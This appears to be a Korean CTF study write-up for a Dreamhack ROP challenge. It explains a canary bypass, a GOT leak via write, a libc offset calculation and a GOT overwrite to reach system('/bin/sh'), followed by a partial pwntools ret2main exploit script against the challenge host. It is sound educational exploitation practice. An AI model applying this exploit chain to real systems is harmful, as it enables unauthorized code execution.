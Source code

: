 해당 문제에서는 `read` 함수의 GOT를 읽은 뒤 `rdx`에 어느정도 큰 값이 설정되어 있기 때문에, 따로 `rdx` 값을 설정하는 가젯을 추가하지 않았지만, 좀 더 reliable한 익스플로잇을 위해서는 가젯을 추가해주는 것이 좋다.

***해당 문제의 전체 익스플로잇 과정을 정리해보면,***

1. 카나리 우회

2. `write(1, read_got, ...)`을 통해 resolve된 `read` 함수의 got 값을 출력하기.

3. 출력한 `read_got` 값과 `libc`의 `system`함수와의 오프셋을 이용하여 `system_got` 값을 구하기

4. `read(0, read_got, ...)`을 통해서 앞에서 구한 `system_got`값에 연속적으로 `/bin/sh` 문자열을 `read` 함수의 `STDIN(fd = 0)` 입력으로 보내서 `read_got`를 **Overwrite**하기  
이후 `p.send(p64(system) + b'/bin/sh\x00')`으로 입력이 끝나면 calling convention에 따라 rip가 바로 다음 실행 순서에 따라 아래 스택의 instruction으로 이동

5. `read_got`가 변조(Overwrite)된 상태에서 `read('/bin/sh')`을 실행하도록 하면,`system('/bin/sh')`가 실행되므로 `rdi`에는 앞에서 입력한 `/bin/sh`이 위치하는 `read_got+0x8`의 주소를 대입하고, `ret` 가젯으로 `read_plt`를 호출하도록 하여 익스플로잇 마무리

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/4cb122c9-2905-48a5-bf6a-3335c53c839b">
<img width="537" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/d51a5160-7c4f-4a10-85c4-ba4fc5ce7288">

# ret2main 풀이
```
from pwn import *

context.arch = "amd64"
p = remote('host3.dreamhack.games', 13886)

e = ELF('./rop')
libc = ELF('./libc.so.6')

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - list(libc.search(b'/bin/sh'))[0]

r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]

p.send(b'a'*0x39)
# p.sendafter(b'Buf: ', b'a'*0x39)
p.recvuntil(b'a'*0x39)
canary = b'\x00' + p.recvn(7)
payload = b'a'*0x38 + canary + b'a'*0x8

payload += p64(ret)

# first main

# write(1, read_got, ...)

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# 여기서는 read_got를 읽어오고 더이상 instruction이 read 말고는 없으므로 system 콜을 직접적으로 하려면 main으로 다시 돌아가야함

payload += p64(main)

```